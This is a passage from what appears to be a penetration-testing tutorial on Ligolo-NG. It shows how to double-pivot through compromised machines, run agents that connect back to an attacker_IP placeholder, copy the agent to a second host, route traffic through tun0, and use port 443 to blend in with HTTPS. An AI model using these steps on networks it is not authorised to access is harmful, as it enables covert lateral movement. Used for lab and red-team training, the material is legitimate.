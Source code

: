 Ligolo-NG **supports multiple pivots** (e.g., internal machine connects to another deeper internal machine).

### 🔹 Steps to Double Pivot

1️⃣ **Run an agent on Pivot 1** (First compromised machine)

./agent -connect attacker_IP:11601 -ignore-cert

2️⃣ **From Pivot 1, transfer the agent to Pivot 2**

scp agent user@pivot2:/tmp/

3️⃣ **Run another agent on Pivot 2 (connects to Pivot 1 instead of attacker)**

./agent -connect pivot1_IP:11601 -ignore-cert

4️⃣ **Check sessions on Pivot 1:**

./proxy session

5️⃣ **Add routing to access Pivot 2’s network via Pivot 1**

sudo ip route add 10.0.10.0/24 via 172.31.0.3 dev tun0

Now, you can scan 10.0.10.0/24 from your Kali, despite needing **two pivots to reach it**.

⸻

## 9. Securely Closing the Tunnel

To **disconnect** the pivot:
🔹 On the pivot:

pkill agent

🔹 On the attacker’s machine:

./proxy session -close 1

To clean up routes:

sudo ip route del 10.0.5.0/24



⸻

## 10. Troubleshooting

**❓ Agent is not connecting**
✔️ Ensure **proxy is running and listening** (netstat -tulnp | grep 11601)
✔️ Check **firewall rules** (some networks block outbound connections)
✔️ Try **different ports** (e.g., run proxy on **443** to blend in with HTTPS)

./proxy -selfcert -listen 0.0.0.0:443
./agent -connect attacker_IP:443 -ignore-cert

**❓ No traffic going through the tunnel**
✔️ Ensure **tun0 is created** (ip a | grep tun)
✔️ Add the correct **routing rule** (ip route add ...)
✔️ Verify **the pivot can reach the target network** (ping 10.0.5.1 from pivot)
